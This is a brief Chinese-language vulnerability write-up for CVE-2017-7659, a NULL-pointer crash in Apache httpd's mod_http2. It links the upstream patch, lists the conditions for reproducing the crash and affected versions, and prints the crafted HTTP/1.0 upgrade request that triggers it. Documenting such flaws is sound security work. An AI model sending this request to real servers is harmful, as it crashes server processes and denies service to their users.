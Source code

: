 # CVE-2017-7659

恶意构造的HTTP / 2请求可能导致`Apache HTTP Server 2.4.24、2.4.25`中的`mod_http2`取消引用`NULL`指针，并使服务器进程崩溃。

## Table Of Contents
+ [漏洞原因](#漏洞原因)
+ [漏洞复现](#漏洞复现)
+ [受影响的程序](#受影响的版本)

## 漏洞原因

详细请查看本次漏洞[补丁](https://github.com/apache/httpd/commit/672187c168b94b562d8065e08e2cad5b00cdd0e3)

## 漏洞复现

+ 服务器支持HTTP/2
+ 服务器设置日志级别为debug
+ 请求是HTTP/1.0版本
+ 请求中没有Host头

```HTTP
GET / HTTP/1.0
Connection: Upgrade, HTTP2-Settings
Upgrade: h2c
HTTP2-Settings: AAMAAABkAARAAAAAAAIAAAAA
```
## 受影响的程序
+ httpd 2.4.17~2.4.25